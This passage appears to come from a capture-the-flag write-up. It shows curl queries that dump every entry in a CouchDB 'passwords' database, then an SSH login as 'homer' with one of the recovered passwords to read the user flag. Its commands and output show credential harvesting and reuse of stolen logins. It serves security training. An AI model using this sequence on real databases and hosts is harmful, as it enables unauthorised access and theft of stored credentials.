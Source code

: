 Nothing much interesting here.

Now the database `password`:

```
$ curl -X GET -H 'Content-Type: application/json' http://noraj:nopass@127.0.0.1:5984/passwords/_all_docs
{"total_rows":4,"offset":0,"rows":[
{"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"}},
{"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"}},
{"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"}},
{"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"}}
]}
```

Looks like there are 4 passwords here but only a reference to them.
So I just have to request those id:

```
$ curl -X GET -H 'Content-Type: application/json' http://noraj:nopass@127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc4380019e4
{"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"0B4jyA0xtytZi7esBNGp","user":""}

$ curl -X GET -H 'Content-Type: application/json' http://noraj:nopass@127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc43800368d
{"_id":"739c5ebdf3f7a001bebb8fc43800368d","_rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e","item":"couchdb","password":"r3lax0Nth3C0UCH","user":"couchy"}

$ curl -X GET -H 'Content-Type: application/json' http://noraj:nopass@127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc438003e5f
{"_id":"739c5ebdf3f7a001bebb8fc438003e5f","_rev":"1-77cd0af093b96943ecb42c2e5358fe61","item":"simpsonsfanclub.com","password":"h02ddjdj2k2k2","user":"homer"}

$ curl -X GET -H 'Content-Type: application/json' http://noraj:nopass@127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc438004738
{"_id":"739c5ebdf3f7a001bebb8fc438004738","_rev":"1-49a20010e64044ee7571b8c1b902cf8c","user":"homerj0121","item":"github","password":"STOP STORING YOUR PASSWORDS HERE -Admin"}
```

As it is all about Simpsons from the beginning, let's target the user `homer` with password `h02ddjdj2k2k2` and try to connect to ssh with those credentials.

```
$ ssh homer@10.10.10.70 -p 65535

homer@canape:~$ cat user.txt 
bce918696f293e62b2321703bb27288d
```

Success!

